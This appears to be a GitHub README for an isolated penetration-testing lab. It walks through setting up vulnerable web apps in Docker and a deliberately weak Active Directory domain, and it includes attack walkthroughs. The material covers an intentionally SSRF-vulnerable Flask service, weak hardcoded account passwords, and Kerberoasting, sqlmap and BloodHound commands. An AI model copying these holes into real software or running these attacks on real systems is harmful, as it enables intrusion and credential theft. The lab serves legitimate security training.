

<div align="center">

# 🔐 VulnLab 

### *Multi-Tier Penetration Testing Environment*

[](https://www.virtualbox.org/)
[](https://ubuntu.com/)
[](https://www.parrotsec.org/)
[](#license)

*A comprehensive, reproducible cybersecurity laboratory featuring vulnerable web applications, network services, and Active Directory simulation—isolated in a VirtualBox environment.*

[Features](#-features) • [Quick Start](#-quick-start) • [Architecture](#-architecture) • [Documentation](#-documentation) • [Support](#-support)

</div>

---

## ⚡ Features

<table>
<tr>
<td width="50%">

### 🎯 **Attack Surface**
- 8+ Vulnerable Web Applications
- Network Service Exploitation
- Active Directory Domain
- GraphQL & API Testing
- SSRF Laboratories

</td>
<td width="50%">

### 🛠️ **Tooling**
- Parrot OS Security Edition
- Pre-configured Attack Tools
- Anonymous Testing (AnonSurf)
- Network Traffic Analysis
- Automated Exploitation

</td>
</tr>
<tr>
<td width="50%">

### 🔒 **Isolation**
- VirtualBox Host-Only Network
- Firewall-Hardened Targets
- Zero Public Exposure
- Snapshot Management
- Safe Testing Environment

</td>
<td width="50%">

### 📚 **Learning Paths**
- OWASP Top 10 Coverage
- CTF Challenge Support
- Real-World Scenarios
- AD Attack Techniques
- Multi-Stage Campaigns

</td>
</tr>
</table>

---

## 🏗️ Architecture

<div align="center">

```
╔══════════════════════════════════════════════════════════╗
║           VirtualBox Host-Only Network                   ║
║              Subnet: 192.xxx.xxx.0/24                     ║
╚══════════════════════════════════════════════════════════╝
         ┃                    ┃                    ┃
    ┏━━━━▼━━━━┓         ┏━━━━━▼━━━━━┓      ┏━━━━━━▼━━━━━┓
    ┃ Parrot  ┃         ┃  Ubuntu   ┃      ┃  Windows   ┃
    ┃ Attacker┃◄━━━━━━━►┃  Target   ┃◄━━━━►┃  Server    ┃
    ┃  .xxx   ┃         ┃   .xxx   ┃      ┃   .xxx    ┃
    ┗━━━━━━━━━┛         ┗━━━━━━━━━━━┛      ┗━━━━━━━━━━━━┛
       🦜                   🐋 Docker           🪟 AD DS
```

</div>

### 🖥️ Virtual Machine Specifications

#### **🦜 Parrot OS Security (Attacker Workstation)** 
*IP: `192.168.xxx.xxx`*

```
┌─────────────────────────────────────────────┐
│ • Security-Focused Linux Distribution      │
│ • 600+ Pre-installed Security Tools        │
│ • Anonymous Surfing (AnonSurf)             │
│ • Lightweight & Privacy-Oriented           │
│ • Burp Suite, Metasploit, BloodHound       │
└─────────────────────────────────────────────┘
```

#### **🐋 Ubuntu Server (Target Host)**
*IP: `192.168.xxx.xxx`*

<details>
<summary><b>📦 Containerized Applications (Click to Expand)</b></summary>

| Application | Port | Vulnerability Type |
|-------------|------|-------------------|
| **DVWA** | 8080 | Classic Web Vulns |
| **Juice Shop** | 3000 | Modern JS/OWASP Top 10 |
| **Mutillidae II** | 8081/8443 | OWASP Training |
| **WebGoat** | 8082 | Interactive Lessons |
| **bWAPP** | 8083 | 100+ Vulnerabilities |
| **Vulnerable GraphQL** | 4000 | API Security |
| **SSRF Lab** | 5000 | Server-Side Exploits |
| **Metasploitable3** | 2222+ | Network Services |

</details>

#### **🪟 Windows Server 2019/2022 (Optional)**
*IP: `192.168.xxx.xxx`*

```
┌─────────────────────────────────────────────┐
│ • Active Directory Domain Services         │
│ • Vulnerable SMB Configurations            │
│ • Kerberoasting-Ready SPNs                 │
│ • Weak Service Accounts                    │
│ • BloodHound Attack Paths                  │
└─────────────────────────────────────────────┘
```

---

## 📋 Prerequisites

<table>
<tr>
<td width="50%">

### 💻 **Host Requirements**

```yaml
CPU: 8+ threads (VT-x/AMD-V)
RAM: 16GB minimum (32GB ideal)
Storage: 150GB+ free (SSD)
Hypervisor: VirtualBox 7.0+
```

</td>
<td width="50%">

### 📥 **ISO Downloads**

- [🦜 Parrot Security](https://www.parrotsec.org/download/)
- [🐧 Ubuntu 22.04 LTS](https://ubuntu.com/download/server)
- [🪟 Windows Server](https://www.microsoft.com/evalcenter) *(optional)*

</td>
</tr>
</table>

---

## 🚀 Quick Start

### **Phase 1️⃣: Network Setup**

<details>
<summary><b>Configure VirtualBox Host-Only Network</b></summary>

```bash
# Open VirtualBox → Tools → Network Manager
# Create new Host-Only Network with these settings:

┌────────────────────────────────────┐
│ Network Name: vboxnet0             │
│ IPv4 Address: 192.168.xxx.xxx         │
│ Subnet Mask:  255.255.255.0        │
│ DHCP Server:  Disabled             │
└────────────────────────────────────┘
```

**VM Network Adapters** (All VMs):
- **Adapter 1**: NAT *(Internet access)*
- **Adapter 2**: Host-Only Adapter *(Lab traffic)*

</details>

---

### **Phase 2️⃣: Parrot OS Setup**

<details>
<summary><b>Installation & Configuration</b></summary>

#### **Step 1: Create & Install VM**
```yaml
Name: Parrot-Attacker
RAM: 4GB
CPUs: 2
Disk: 80GB
ISO: Parrot Security Edition
```

#### **Step 2: Configure Static IP**
```bash
sudo nano /etc/network/interfaces
```

Add configuration:
```bash
auto eth1
iface eth1 inet static
    address 192.xxx.xxx.xxx
    netmask 255.255.255.0
```

```bash
sudo systemctl restart networking
ip a show eth1  # Verify
```

#### **Step 3: System Update**
```bash
# Update Parrot repositories
sudo parrot-upgrade

# Install additional tools
sudo apt update && sudo apt install -y \
    zaproxy seclists feroxbuster chisel \
    bloodhound neo4j crackmapexec impacket-scripts \
    powershell-empire starkiller enum4linux-ng \
    kerbrute mitm6 responder

# Python security tools
pip3 install --user pypykatz lsassy
```

#### **Step 4: Configure Tools**
```bash
# Launch Burp Suite
burpsuite &

# Enable AnonSurf (optional - for anonymity)
sudo anonsurf start
sudo anonsurf status
```

</details>

---

### **Phase 3️⃣: Ubuntu Target Setup**

<details>
<summary><b>Docker Environment Deployment</b></summary>

#### **Step 1: VM Installation**
```yaml
Name: Ubuntu-Target
RAM: 4GB
CPUs: 2
Disk: 80GB
ISO: Ubuntu Server 22.04
```

#### **Step 2: Network Configuration**
```bash
sudo nano /etc/netplan/01-netcfg.yaml
```

```yaml
network:
  version: 2
  renderer: networkd
  ethernets:
    enp0s3:
      dhcp4: true
    enp0s8:
      addresses:
        - 192.168.56.101/24
      dhcp4: false
```

```bash
sudo netplan apply
```

#### **Step 3: Docker Installation**
```bash
# Remove old versions
sudo apt remove docker docker-engine docker.io containerd runc

# Install prerequisites
sudo apt update
sudo apt install -y ca-certificates curl gnupg

# Add Docker GPG key
sudo mkdir -p /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | \
    sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

# Setup repository
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
  https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# Install Docker
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io \
    docker-buildx-plugin docker-compose-plugin

# Configure
sudo systemctl enable docker
sudo usermod -aG docker $USER
newgrp docker
```

#### **Step 4: Deploy Applications**
```bash
mkdir -p ~/vulnlab && cd ~/vulnlab
nano docker-compose.yml
```

<details>
<summary><b>📄 docker-compose.yml (Click to view)</b></summary>

```yaml
version: '3.8'

services:
  dvwa:
    image: vulnerables/web-dvwa
    container_name: dvwa
    ports:
      - "8080:80"
    environment:
      - MYSQL_ROOT_PASSWORD=dvwa
      - MYSQL_DATABASE=dvwa
      - MYSQL_USER=dvwa
      - MYSQL_PASSWORD=p@ssw0rd
    restart: unless-stopped
    networks:
      - vulnlab

  juiceshop:
    image: bkimminich/juice-shop
    container_name: juiceshop
    ports:
      - "3000:3000"
    restart: unless-stopped
    networks:
      - vulnlab

  mutillidae:
    image: bltsec/mutillidae-docker
    container_name: mutillidae
    ports:
      - "8081:80"
      - "8443:443"
    restart: unless-stopped
    networks:
      - vulnlab

  webgoat:
    image: webgoat/webgoat
    container_name: webgoat
    ports:
      - "8082:8080"
      - "9090:9090"
    environment:
      - WEBGOAT_HOST=0.0.0.0
    restart: unless-stopped
    networks:
      - vulnlab

  bwapp:
    image: raesene/bwapp
    container_name: bwapp
    ports:
      - "8083:80"
    restart: unless-stopped
    networks:
      - vulnlab

  vulnerable-graphql:
    image: carvesystems/vulnerable-graphql
    container_name: vulnerable-graphql
    ports:
      - "4000:4000"
    restart: unless-stopped
    networks:
      - vulnlab

  ssrf-lab:
    image: jfloff/alpine-python:3.8
    container_name: ssrf-lab
    command: sh -c "pip install flask requests && python -c 'from flask import Flask, request; import requests; app = Flask(__name__); @app.route(\"/fetch\") \ndef fetch(): url = request.args.get(\"url\"); return requests.get(url).text; app.run(host=\"0.0.0.0\", port=5000)'"
    ports:
      - "5000:5000"
    restart: unless-stopped
    networks:
      - vulnlab

  metasploitable3:
    image: tleemcjr/metasploitable3
    container_name: metasploitable3
    ports:
      - "2222:22"
      - "21:21"
      - "445:445"
      - "3306:3306"
      - "5432:5432"
      - "6200:6200"
      - "8585:8585"
    restart: unless-stopped
    networks:
      - vulnlab
    privileged: true

networks:
  vulnlab:
    driver: bridge
```

</details>

```bash
# Start the lab
docker compose up -d

# Verify deployment
docker compose ps
```

#### **Step 5: Firewall Configuration**
```bash
# Reset firewall
sudo ufw --force reset

# Set defaults
sudo ufw default deny incoming
sudo ufw default allow outgoing

# Allow Parrot access only
PARROT_IP="192.168.56.100"

sudo ufw allow from $PARROT_IP to any port 22 proto tcp comment 'SSH'
sudo ufw allow from $PARROT_IP to any port 8080 proto tcp comment 'DVWA'
sudo ufw allow from $PARROT_IP to any port 3000 proto tcp comment 'Juice Shop'
sudo ufw allow from $PARROT_IP to any port 8081 proto tcp comment 'Mutillidae HTTP'
sudo ufw allow from $PARROT_IP to any port 8443 proto tcp comment 'Mutillidae HTTPS'
sudo ufw allow from $PARROT_IP to any port 8082 proto tcp comment 'WebGoat'
sudo ufw allow from $PARROT_IP to any port 8083 proto tcp comment 'bWAPP'
sudo ufw allow from $PARROT_IP to any port 4000 proto tcp comment 'GraphQL'
sudo ufw allow from $PARROT_IP to any port 5000 proto tcp comment 'SSRF Lab'
sudo ufw allow from $PARROT_IP to any port 2222 proto tcp comment 'Metasploitable'
sudo ufw allow from $PARROT_IP to any port 21 proto tcp comment 'FTP'
sudo ufw allow from $PARROT_IP to any port 445 proto tcp comment 'SMB'
sudo ufw allow from $PARROT_IP to any port 3306 proto tcp comment 'MySQL'
sudo ufw allow from $PARROT_IP to any port 5432 proto tcp comment 'PostgreSQL'

# Enable
sudo ufw enable
sudo ufw status numbered
```

</details>

---

### **Phase 4️⃣: Windows Server AD (Optional)**

<details>
<summary><b>Active Directory Configuration</b></summary>

#### **Step 1: Installation**
```yaml
Name: Windows-DC
RAM: 4GB
CPUs: 2
Disk: 80GB
ISO: Windows Server 2019/2022
```

#### **Step 2: Network Setup**
```powershell
# PowerShell (Administrator)
New-NetIPAddress -InterfaceAlias "Ethernet 2" `
    -IPAddress 192.168.56.102 `
    -PrefixLength 24 `
    -DefaultGateway 192.168.56.1

Set-DnsClientServerAddress -InterfaceAlias "Ethernet 2" `
    -ServerAddresses 192.168.56.102
```

#### **Step 3: Install AD DS**
```powershell
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools

Install-ADDSForest `
    -DomainName "vulnlab.local" `
    -DomainNetbiosName "VULNLAB" `
    -SafeModeAdministratorPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) `
    -Force
```

#### **Step 4: Create Vulnerable Environment**
```powershell
# Create OUs
New-ADOrganizationalUnit -Name "VulnLab Users" -Path "DC=vulnlab,DC=local"
New-ADOrganizationalUnit -Name "VulnLab Computers" -Path "DC=vulnlab,DC=local"

# Create vulnerable users
New-ADUser -Name "SQL Service" -SamAccountName "sqlsvc" `
    -UserPrincipalName "sqlsvc@vulnlab.local" `
    -AccountPassword (ConvertTo-SecureString "MYpassword123#" -AsPlainText -Force) `
    -PasswordNeverExpires $true -Enabled $true `
    -Path "OU=VulnLab Users,DC=vulnlab,DC=local"

New-ADUser -Name "Backup Admin" -SamAccountName "backupadmin" `
    -UserPrincipalName "backupadmin@vulnlab.local" `
    -AccountPassword (ConvertTo-SecureString "backup2024!" -AsPlainText -Force) `
    -PasswordNeverExpires $true -Enabled $true `
    -Path "OU=VulnLab Users,DC=vulnlab,DC=local"

# Privilege escalation setup
Add-ADGroupMember -Identity "Backup Operators" -Members backupadmin
setspn -A MSSQLSvc/sqlserver.vulnlab.local:1433 vulnlab\sqlsvc

# Vulnerable SMB share
New-Item -Path "C:\Shares\Public" -ItemType Directory
New-SmbShare -Name "Public" -Path "C:\Shares\Public" -FullAccess "Everyone"
```

</details>

---

## 🎯 Testing & Exploitation

### **Initial Reconnaissance**

```bash
# From Parrot OS terminal

# 1. Network discovery
nmap -sn 192.168.56.0/24

# 2. Service enumeration
nmap -sV -sC -p- 192.168.56.101 -oA ubuntu_full_scan

# 3. Windows enumeration (if deployed)
nmap -sV -sC -p- 192.168.56.102 -oA windows_full_scan
```

### **🌐 Web Application Access**

<table>
<tr>
<th>Application</th>
<th>URL</th>
<th>Credentials</th>
<th>Focus Area</th>
</tr>
<tr>
<td>🔴 DVWA</td>
<td><code>http://192.168.xxx.xxx:8080</code></td>
<td><code>admin/password</code></td>
<td>Classic vulnerabilities</td>
</tr>
<tr>
<td>🧃 Juice Shop</td>
<td><code>http://192.168.xxx.xxx:3000</code></td>
<td><i>Create account</i></td>
<td>Modern web apps</td>
</tr>
<tr>
<td>🐛 Mutillidae</td>
<td><code>http://192.168.xxx.xxx:8081</code></td>
<td><i>No auth</i></td>
<td>OWASP Top 10</td>
</tr>
<tr>
<td>🐐 WebGoat</td>
<td><code>http://192.168.xxx.xxx:8082/WebGoat</code></td>
<td><i>Create account</i></td>
<td>Interactive lessons</td>
</tr>
<tr>
<td>🐝 bWAPP</td>
<td><code>http://192.168.xxx.xxx:8083</code></td>
<td><code>bee/bug</code></td>
<td>100+ vulnerabilities</td>
</tr>
<tr>
<td>📊 GraphQL</td>
<td><code>http://192.168.xxx.xxx:4000</code></td>
<td><i>N/A</i></td>
<td>API security</td>
</tr>
</table>

### **🎓 DVWA Quick Start**

```bash
# 1. Access DVWA
firefox http://192.168.xxx.xxx:8080 &

# 2. Login: admin / password

# 3. Initialize database
#    Click: "Setup / Reset Database"

# 4. Re-login after database creation

# 5. Set security level
#    DVWA Security → Select: Low/Medium/High/Impossible
```

### **🏴‍☠️ Active Directory Exploitation**

```bash
# SMB enumeration
crackmapexec smb 192.168.xxx.xxx -u '' -p ''
enum4linux-ng 192.168.xxx.xxx

# Kerberoasting attack
impacket-GetUserSPNs vulnlab.local/sqlsvc:MYpassword123# \
    -dc-ip 192.168.xxx.xxx -request -outputfile kerberoast_hashes.txt

# Crack the hash
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# BloodHound enumeration
bloodhound-python -d vulnlab.local \
    -u sqlsvc -p 'MYpassword123#' \
    -ns 192.168.xxx.xxx -c all

# Start BloodHound
sudo neo4j console
bloodhound  # In new terminal
```

---

## 🔧 Lab Management

### **Container Operations**

```bash
# Start all services
cd ~/vulnlab
docker compose up -d

# View status
docker compose ps

# Stop services
docker compose down

# Complete reset (including volumes)
docker compose down -v

# View logs
docker compose logs -f
docker compose logs -f dvwa  # Specific service

# Restart single service
docker compose restart juiceshop
```

### **VM Snapshot Management**

```bash
# Create clean snapshot
VBoxManage snapshot "Ubuntu-Target" take "Clean-State" --description "Initial deployment"

# List snapshots
VBoxManage snapshot "Ubuntu-Target" list

# Restore snapshot
VBoxManage snapshot "Ubuntu-Target" restore "Clean-State"

# Delete snapshot
VBoxManage snapshot "Ubuntu-Target" delete "Clean-State"
```

### **Resource Monitoring**

```bash
# Docker resource usage
docker stats

# System resources
htop

# Network connections
sudo netstat -tunlp
```

---

## 🎭 Advanced Attack Scenarios

### **Scenario 1: Web Application Penetration**

```bash
# 1. Reconnaissance
nikto -h http://192.168.56.101:8080
whatweb http://192.168.56.101:8080

# 2. Directory brute-forcing
feroxbuster -u http://192.168.56.101:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt

# 3. SQL injection testing
sqlmap -u "http://192.168.56.101:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
    --cookie="security=low; PHPSESSID=<your-session>" \
    --dbs --batch

# 4. XSS exploitation
# Manual testing in browser + Burp Suite intercept
```

### **Scenario 2: Multi-Stage Attack Chain**



### **Scenario 3: Capture-the-Flag Setup**

```bash
# On Ubuntu target - Create hidden flags
docker exec dvwa sh -c "echo 'FLAG{dvwa_database_pwned}' > /var/www/html/.flag1.txt"
docker exec juiceshop sh -c "echo 'FLAG{juice_admin_access}' > /juice-shop/.flag2.txt"
docker exec mutillidae sh -c "echo 'FLAG{mutillidae_rce_achieved}' > /var/www/html/.flag3.txt"

# Participants must find and retrieve flags through exploitation
```

---

## ⚠️ Security & Safety

### **🚨 Critical Safety Measures**

> **WARNING**: These systems are intentionally vulnerable. Improper use can expose you to security risks.

```
┌─────────────────────────────────────────────────────┐
│  ✓ ONLY use Host-Only networking                   │
│  ✓ NEVER expose to public internet                 │
│  ✓ Disable NAT adapter after initial setup         │
│  ✓ Use strong host machine security                │
│  ✓ Regularly snapshot clean states                 │
│  ✓ Test only systems you own/authorize             │
└─────────────────────────────────────────────────────┘
```

### **Legal Compliance**

- ✅ Only test systems you own or have written permission to test
- ✅ Follow responsible disclosure for any real vulnerabilities found
- ✅ Comply with local cybersecurity laws and regulations
- ✅ Use for educational and authorized testing purposes only
- ❌ Never use techniques learned here on unauthorized systems

### **Backup Strategy**

```bash
# 1. Export VMs
VBoxManage export Parrot-Attacker -o parrot-backup.ova
VBoxManage export Ubuntu-Target -o ubuntu-backup.ova

# 2. Backup configurations
cd ~/vulnlab
tar -czf vulnlab-config-$(date +%Y%m%d).tar.gz docker-compose.yml

# 3. Store backups securely
# Recommend encrypted external storage
```

---

## 🐛 Troubleshooting

<details>
<summary><b>🔴 Port Conflicts</b></summary>

```bash
# Check what's using a port
sudo lsof -i :8080
sudo netstat -tunlp | grep 8080

# Solution: Change port mapping in docker-compose.yml
# Example: "8084:80" instead of "8080:80"

docker compose down
docker compose up -d
```

</details>

<details>
<summary><b>🔴 Container Won't Start</b></summary>

```bash
# View detailed logs
docker compose logs <service_name>

# Force recreate
docker compose up -d --force-recreate <service_name>

# Complete restart
docker compose down -v
docker compose up -d
```

</details>

<details>
<summary><b>🔴 Network Connectivity Issues</b></summary>

```bash
# Verify host-only network
VBoxManage list hostonlyifs

# Check routing
ip route show

# Test connectivity
ping -c 3 192.168.56.101

# Verify firewall
sudo ufw status verbose
sudo ufw allow from 192.168.56.100
```

</details>

<details>
<summary><b>🔴 DVWA Database Errors</b></summary>

```bash
# Access container
docker exec -it dvwa bash

# Test MySQL connection
mysql -u root -pdvwa -e "SHOW DATABASES;"

# Reset DVWA
docker compose restart dvwa

# Complete rebuild
docker compose down
docker compose up -d dvwa
```

</details>

<details>
<summary><b>🔴 Windows AD Not Accessible</b></summary>

```powershell
# Check firewall status
Get-NetFirewallProfile | Select Name, Enabled

# Temporarily disable (testing only!)
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

# Verify DNS
nslookup vulnlab.local

# Test from Parrot
ping 192.168.56.102
crackmapexec smb 192.168.56.102
```

</details>

---

## 📚 Learning Paths

### **🔰 Beginner Track**

```
Week 1-2: Web Fundamentals
├── DVWA (Low Security)
│   ├── SQL Injection
│   ├── XSS (Reflected/Stored)
│   ├── Command Injection
│   └── File Upload
│
Week 3-4: Modern Applications
├── OWASP Juice Shop
│   ├── Broken Authentication
│   ├── Sensitive Data Exposure
│   ├── XXE Injection
│   └── CSRF
│
Week 5-6: Network Services
└── Metasploitable3
    ├── FTP Enumeration
    ├── SMB Exploitation
    └── MySQL Attacks
```

### **⚡ Intermediate Track**

```
Month 1: Advanced Web
├── WebGoat Interactive Lessons
├── Mutillidae II (Medium Security)
├── bWAPP Challenges
└── GraphQL API Testing

Month 2: Active Directory
├── SMB Enumeration
├── Kerberoasting
├── BloodHound Analysis
└── Lateral Movement
```

### **🔥 Advanced Track**

```
Multi-Stage Attack Campaigns
├── Initial Access (Web App Exploit)
├── Establish Persistence
├── Privilege Escalation
├── Network Pivoting
├── AD Enumeration
├── Domain Admin Compromise
└── Complete Infrastructure Control
```

---

## 🎓 Recommended Resources

### **📖 Documentation**
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [DVWA Documentation](https://github.com/digininja/DVWA)
- [Juice Shop Guide](https://pwning.owasp-juice.shop/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

### **🎥 Video Courses**
- HackTheBox Academy
- TryHackMe Learning Paths
- PentesterLab Exercises
- Offensive Security Training

### **📝 Certification Prep**
- **OSCP**: Focus on manual exploitation
- **CEH**: Cover all OWASP Top 10
- **eWPT**: WebGoat + Juice Shop
- **CRTP**: Active Directory lab

---

## 🔄 Updates & Maintenance

### **System Updates**

```bash
# Parrot OS
sudo parrot-upgrade

# Ubuntu Target
sudo apt update && sudo apt upgrade -y

# Docker Images
docker compose pull
docker compose up -d
```

### **Adding New Targets**

```yaml
# Add to docker-compose.yml
  new-vuln-app:
    image: vulnerableapp/latest
    ports:
      - "9000:80"
    networks:
      - vulnlab
    restart: unless-stopped
```

### **Performance Tuning**

```yaml
# Resource limits in docker-compose.yml
services:
  dvwa:
    deploy:
      resources:
        limits:
          cpus: '1'
          memory: 512M
```

---

## 🤝 Contributing

We welcome contributions! Here's how:

```bash
# 1. Fork the repository
git clone https://github.com/yourusername/vulnlab-advanced.git

# 2. Create feature branch
git checkout -b feature/amazing-addition

# 3. Make changes and test thoroughly

# 4. Commit with descriptive message
git commit -m "Add: New vulnerable application XYZ"

# 5. Push and create pull request
git push origin feature/amazing-addition
```

### **Contribution Guidelines**
- ✅ Test all changes in isolated environment
- ✅ Document new features thoroughly
- ✅ Follow existing code style
- ✅ Include security warnings where needed
- ✅ Add to troubleshooting section if relevant

---

## 📜 License

This configuration is provided **as-is for educational purposes only**.

### **Component Licenses**

| Component | License | Link |
|-----------|---------|------|
| DVWA | GPL-3.0 | [Link](https://github.com/digininja/DVWA) |
| OWASP Juice Shop | MIT | [Link](https://github.com/juice-shop/juice-shop) |
| Mutillidae II | GPL-3.0 | [Link](https://github.com/webpwnized/mutillidae) |
| WebGoat | LGPL-2.1 | [Link](https://github.com/WebGoat/WebGoat) |
| bWAPP | CC BY-NC-ND | [Link](http://www.itsecgames.com/) |

---

## 🙏 Acknowledgments

<div align="center">

**Special Thanks To:**

🔐 **OWASP Foundation** • 🦜 **Parrot Security Team** • 🛡️ **Offensive Security Community**

🐋 **Docker Community** • 💻 **VulnHub** • 🎯 **HackTheBox**

🌐 **Global Security Researchers** • 📚 **Educators Worldwide**

</div>

---

## 💬 Support & Community

<table>
<tr>
<td align="center">

### 📧 **Get Help**

- Check [Troubleshooting](#-troubleshooting)
- Review [Documentation](#-documentation)
- Search existing issues
- Create detailed bug report

</td>
<td align="center">

### 🐛 **Report Issues**

```bash
# Include in bug reports:
- VirtualBox version
- OS versions (all VMs)
- Error messages
- docker compose logs
```

</td>
</tr>
</table>

---

<div align="center">

## 📊 Project Stats


---

### 🎯 Quick Links

[Installation](#-quick-start) • [Architecture](#-architecture) • [Troubleshooting](#-troubleshooting) • [Learning Paths](#-learning-paths)

---

**Lab Version**: `2.0.0` | **Last Updated**: January 2026  
**Tested On**: VirtualBox 7.0 • Ubuntu 22.04 • Parrot OS 6.1 Security Edition

---

<sub>⚠️ **Disclaimer**: This lab contains intentionally vulnerable systems. Use only in isolated, controlled environments. The authors are not responsible for misuse.</sub>

**Made with 💚 by the Cybersecurity Community**

</div>
